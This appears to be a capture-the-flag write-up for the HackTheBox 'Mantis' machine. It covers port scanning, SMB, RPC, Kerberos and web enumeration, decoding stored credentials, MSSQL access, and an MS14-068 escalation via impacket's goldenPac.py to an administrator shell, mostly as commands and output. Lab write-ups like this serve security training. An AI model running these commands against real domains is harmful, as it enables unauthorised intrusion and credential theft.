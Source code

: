 Nmap scan

```
nmap -p- --min-rate 10000 -oA nmap 10.10.10.52
Not shown: 36855 closed ports, 28653 filtered ports
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1337/tcp  open  waste
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5722/tcp  open  msdfsr
8080/tcp  open  http-proxy
9389/tcp  open  adws
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49164/tcp open  unknown
49166/tcp open  unknown
49168/tcp open  unknown
50255/tcp open  unknown

```


### Enumerating SMB and RPC

Smb doesn't give us nothing

```
smbclient -L 10.10.10.52
Enter WORKGROUP\localuser's password: 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
SMB1 disabled -- no workgroup available
```

Same with RPC

```
rpcclient -U "" -N 10.10.10.52
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
```

### Enumerating port 8080 (HTTP)

```
sudo gobuster -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.52:8080/ -t 20
/archive (Status: 200)                                                                                                                                                                        
/blogs (Status: 200)                                                                                                                                                                          
/admin (Status: 302)                                                                                                                                                                          
/tags (Status: 200)                                                                                                                                                                           
/Archive (Status: 200)                                                                                                                                                                        
/pollArchive (Status: 200)                                                                                                                                                                    
/Blogs (Status: 200)                                                                                                                                                                          
/newsarchive (Status: 200) 
```

We can access to `/admin` but it redirects us to a login, trying with default credentials but we don't get results back.

The footer of the website shows: `Powered by Orchard` that is a CMS, using searchsploit there are some vulnerabilities

```
searchsploit orchard
Orchard 1.3.9 - 'ReturnUrl' Open Redirection                                                                                                                | php/webapps/36493.txt
Orchard CMS 1.7.3/1.8.2/1.9.0 - Persistent Cross-Site Scripting                                                                                             | asp/webapps/37533.txt
Orchard Core RC1 - Persistent Cross-Site Scripting                                                                                                          | aspx/webapps/48456.txt

```

These exploit doesn't seems usefull 

### Enumerating port 88 (kerberos)

Let's try to get usernames with kerbrute

```
kerbrute -users /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -dc-ip 10.10.10.52 -domain htb.local
[*] Valid user => james
```

Now I tryed doing AS-REP roast but didn't get anything back

### Enumerating port 1337

Going to http://10.10.10.52:1337 there's the Microsoft IIS default page, then I use gobuster

```
sudo gobuster -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.52:1337 -t 50
/secure_notes (Status: 301)
```

Going to the directory `/secure/notes/` there's a `.txt` file and a `web.config` file:

dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt:

```
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.
```

Scrolling down there's this:

```
Credentials stored in secure format
OrchardCMS admin creadentials 010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001
SQL Server sa credentials file namez
```

Decoding from binary we have the password: `@dm!n_P@ssW0rd!`, with this password we can sing in http://10.10.10.52:8080/admin  there's an admin password but we can't do anything with it.

Decoding the string `NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx` from base64 and then from hex we get this: `m$$ql_S@_P@ssW0rd!`

### Enumerating port 1443 with credentials (MSSQL)

Login as admin:

```
python3 /opt/impacket/examples/mssqlclient.py'admin:m$$ql_S@_P@ssW0rd!@10.10.10.52'
```

The login works, but now I'll connect using dbeaver, and select SQL Server as the note said

![image1](/assets/images/htb-mantis/mantis1.png)

And we find the password for admin and james:

![image2](/assets/images/htb-mantis/mantis2.png)

### Enumerating with user James

We have this password `J@m3s_P@ssW0rd!` , I try to enumerate SMB

```
smbmap -H 10.10.10.52 -u james -p 'J@m3s_P@ssW0rd!'
[+] Finding open SMB ports....
[+] User SMB session established on 10.10.10.52...
[+] IP: 10.10.10.52:445 Name: 10.10.10.52                                       
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        .                                                  
        dr--r--r--                0 Thu Aug 31 17:05:10 2017    .
        dr--r--r--                0 Thu Aug 31 17:05:10 2017    ..
        NETLOGON                                                READ ONLY       Logon server share 
        .                                                  
        dr--r--r--                0 Thu Aug 31 17:05:10 2017    .
        dr--r--r--                0 Thu Aug 31 17:05:10 2017    ..
        dr--r--r--                0 Thu Aug 31 17:05:10 2017    htb.local
        SYSVOL                                                  READ ONLY       Logon server share 
```

We can't login with psexec, but this box is vulnerable to `MS14-068` so exploit is using goldenPac.py from impacket.

### Exploiting MS14-068

```
sudo python3 /opt/impacket/examples/goldenPac.py htb.local/james@mantis.htb.local -dc-ip 10.10.10.52 -target-ip 10.10.10.52
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[-] Couldn't get forest info ([Errno Connection error (htb.local:445)] [Errno -2] Name or service not known), continuing
[*] Attacking domain controller 10.10.10.52
[*] 10.10.10.52 found vulnerable!
[*] Requesting shares on 10.10.10.52.....
[*] Found writable share ADMIN$
[*] Uploading file TOhcONnf.exe
[*] Opening SVCManager on 10.10.10.52.....
[*] Creating service ljFG on 10.10.10.52.....
[*] Starting service ljFG.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>     
```

And we are administrator
